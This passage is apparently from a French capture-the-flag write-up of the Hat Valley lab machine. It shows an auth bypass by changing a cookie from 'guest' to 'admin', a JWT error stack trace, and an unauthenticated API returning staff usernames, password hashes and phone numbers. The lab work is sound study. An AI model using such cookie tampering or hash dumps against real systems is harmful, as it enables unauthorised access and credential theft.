 ```bash
Cookie: token=guest
```

On essaye de remplacer par admin et on tombe sur le dashboard. Apparemment tout est en JS. Rien de très fonctionnel sur ce dashboard. Dans “network” de la page d’inspection on voit que la page fait un appel qui finit en erreur 500 vers la page api/staff-details. La page affiche une erreur:

```bash
JsonWebTokenError: jwt malformed
    at Object.module.exports [as verify] (/var/www/hat-valley.htb/node_modules/jsonwebtoken/verify.js:63:17)
    at /var/www/hat-valley.htb/server/server.js:151:30
    at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)
    at next (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:144:13)
    at Route.dispatch (/var/www/hat-valley.htb/node_modules/express/lib/router/route.js:114:3)
    at Layer.handle [as handle_request] (/var/www/hat-valley.htb/node_modules/express/lib/router/layer.js:95:5)
    at /var/www/hat-valley.htb/node_modules/express/lib/router/index.js:284:15
    at Function.process_params (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:346:12)
    at next (/var/www/hat-valley.htb/node_modules/express/lib/router/index.js:280:10)
    at cookieParser (/var/www/hat-valley.htb/node_modules/cookie-parser/index.js:71:5)
```

En enlevant le cookie on tombe sur l’ensemble des informations sur les utilisateurs:

```json
[
  {
    "user_id": 1,
    "username": "christine.wool",
    "password": "6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649",
    "fullname": "Christine Wool",
    "role": "Founder, CEO",
    "phone": "0415202922"
  },
  {
    "user_id": 2,
    "username": "christopher.jones",
    "password": "e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1",
    "fullname": "Christopher Jones",
    "role": "Salesperson",
    "phone": "0456980001"
  },
  {
    "user_id": 3,
    "username": "jackson.lightheart",
    "password": "b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436",
    "fullname": "Jackson Lightheart",
    "role": "Salesperson",
    "phone": "0419444111"
  },
  {
    "user_id": 4,
    "username": "bean.hill",
    "password": "37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f",
    "fullname": "Bean Hill",
    "role": "System Administrator",
    "phone": "0432339177"
  }
]

```

